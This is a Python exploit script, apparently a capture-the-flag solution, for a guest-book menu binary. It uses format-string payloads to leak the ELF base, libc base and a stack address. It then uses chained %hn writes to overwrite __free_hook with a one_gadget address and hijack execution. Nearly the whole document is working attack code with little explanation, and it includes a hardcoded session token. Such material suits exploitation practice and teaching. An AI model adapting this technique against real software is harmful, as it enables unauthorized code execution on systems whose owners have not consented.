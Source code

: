 ```python
r.sendlineafter("token", "79DC7rePzwA6MEC1dwoloOYpbP10IMzG")

def AddGuest(name, phone):
	r.sendlineafter("your choice:", '1')
	r.sendlineafter("your name?", name)
	r.sendlineafter("your phone?", phone)

def SeeGuest(number):
	r.sendlineafter("your choice:", '2')
	r.sendlineafter("index:", str(number))

def DelGuest(number):
	r.sendlineafter("your choice:", '3')
	r.sendlineafter("index:", str(number))


AddGuest("%p-%p-%p-%72$p", '1'*16)
SeeGuest(0)

r.recvuntil("the name:")
recv = r.recv(10)
if recv:
	x = int(recv, base = 16)
	print hex(x)
	elf.address = x - (0x80061e3a - 0x80061000)
	print hex(elf.address)
	print hex(elf.got["free"])


r.recvuntil("0x1-")
recv = r.recv(10)
if recv:
	x = int(recv, base = 16)
	print hex(x)
	libc.address = x - (0xb77bdda7 - 0xb760d000)
	print hex(libc.address)
	print hex(libc.symbols["system"])
	print "free_hook", hex(libc.symbols["__free_hook"])

r.recvuntil("-")
recv = r.recv(10)
if recv:
	stack_address = int(recv, base = 16)
	print hex(stack_address)
	stack_address += 0x20
	low = stack_address & 0xffff
	low += 2

print "one_gadget", hex(libc.symbols['one_gadget'])

AddGuest("%" + str(int(libc.symbols["__free_hook"] & 0xffff)) + "c%80$hn", '2'*16)
AddGuest("%" + str(int(low)) + "c%72$hn", '3' * 16)
AddGuest("%" + str(int(libc.symbols["__free_hook"] >> 16)) + "c%80$hn", '4' * 16)
AddGuest("%" + str(int(libc.symbols["one_gadget"] & 0xffff)) + "c%88$hn", '5' * 16)
low -= 2

AddGuest("%" + str(int((libc.symbols["__free_hook"] + 2) >> 16)) + "c%80$hn", '2'*16)
AddGuest("%" + str(int(low)) + "c%72$hn", '3' * 16)
AddGuest("%" + str(int((libc.symbols["__free_hook"] + 2) & 0xffff )) + "c%80$hn", '4' * 16)
AddGuest("%" + str(int(libc.symbols["one_gadget"] >> 16)) + "c%88$hn", '5' * 16)


SeeGuest(1)
```